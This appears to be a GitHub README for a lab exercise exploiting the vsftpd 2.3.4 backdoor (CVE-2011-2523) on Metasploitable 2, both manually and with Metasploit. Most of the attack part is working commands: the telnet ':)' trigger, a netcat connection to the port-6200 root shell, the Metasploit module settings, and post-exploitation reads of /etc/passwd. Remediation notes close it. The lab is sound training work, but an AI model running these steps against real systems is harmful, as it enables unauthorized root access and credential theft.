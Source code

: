 # Manual and Metasploit Exploitation of vsftpd 2.3.4 on Metasploitable 2

## Overview

This project covers two methods of exploiting the vsftpd 2.3.4 backdoor vulnerability (CVE-2011-2523) on Metasploitable 2. This specific vulnerability is due to a backdoor introduced by a malicious actor in this particular version of vsftpd.

- **Manual exploitation** using basic tools like `telnet` and `netcat`
- **Automated exploitation** using `msfconsole` (Metasploit Framework)

The goal was to gain a deeper understanding of the vulnerability by exploring both methods, ultimately achieving root shell access.

---

## Lab Setup

| Component      | Details                                  |
|----------------|-------------------------------------------|
| Attacker VM    | Kali Linux (VirtualBox)                  |
| Target VM      | Metasploitable 2                         |
| Network Mode   | Host-Only Adapter                        |
| Tools Used     | `nmap`, `telnet`, `netcat`, `msfconsole`, `ping` |

---

## Exploitation Method 1: Manual (Telnet + Netcat)

### 1. Identify Metasploitable IP Address

```bash
ifconfig
```

![Ping success](screenshots/meta-ip.png)

---

### 2. Ping from Kali to Confirm Connection

```bash
ping [target IP]
```

![Ping success](screenshots/ping-kali.png)

---

### 3. Scan Open Ports with Nmap

```bash
nmap -sS -sV [target IP]
```

Result: Port **21/tcp** running `vsftpd 2.3.4`

![Ping success](screenshots/nmap-scan.png)

---

### 4. Trigger the Backdoor with Telnet

```bash
telnet [target IP] 21
```

Login:
```
USER test:)
PASS test
```

![Ping success](screenshots/closed-by-foreign-host.png)

---

### 5. Connect to the Backdoor with Netcat

```bash
nc [target IP] 6200
```

Run post-exploit commands:
```bash
whoami
uname -a
cat /etc/passwd
```

![Ping success](screenshots/root-access-change.png)

---

## Exploitation Method 2: Using Metasploit

### 1. Start Metasploit Console

```bash
msfconsole
```

---
![Ping success](screenshots/msf-1.png)

### 2. Search for the vsftpd Exploit

```bash
search vsftpd
```

Use the backdoor module:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

![Ping success](screenshots/msf-root-access.png)

---

### 3. Set Target Information

```bash
set RHOST [target IP]
```

![Ping success](screenshots/msf-root-access.png)

---

### 4. Run the Exploit

```bash
run
```

Successful output:
```
Found shell.
Command shell session 1 opened...
```

![Ping success](screenshots/msf-root-access.png)

---

### 5. Verify Access

```bash
whoami
uname -a
cat /etc/passwd
```

![Ping success](screenshots/msf-root-access.png)

---

## 🧠 Lessons Learned

### 🛡️ Impact and Remediation

This vulnerability allows for full system compromise, leading to unauthorized access to sensitive data and the ability to pivot to other systems within a network. To mitigate this, it is crucial to upgrade vsftpd to a patched version, implement proper network segmentation, and regularly patch systems.

- Manual exploitation teaches protocol-level logic and networking fundamentals
- Metasploit drastically simplifies the process but understanding the logic behind it is crucial
- Proper network configuration (e.g., NAT vs Host-Only) is critical
- Some backdoors only work **once per boot**, which requires timing or resets

---
## Remediation Document

A detailed remediation document has been created to address the vsftpd 2.3.4 backdoor vulnerability (CVE-2011-2523). It includes a summary of the vulnerability, affected systems, step-by-step mitigation instructions, verification procedures, and recommended ongoing security measures.

The document provides evidence of exploitation and remediation, suitable for audit purposes or knowledge sharing. It can be downloaded and reviewed here: [Full Remediation Report (DOCX)](vsftpd_Remediation_Document.docx)

---
## Final Thoughts

Both approaches led to full system compromise. The manual method built foundational skills while Metasploit demonstrated how automation accelerates real-world penetration testing. This lab reinforced my understanding of network reconnaissance, vulnerability exploitation, and post-exploitation techniques, proving valuable for my offensive security skill set. This was a successful offensive security lab that will be used as a portfolio project.
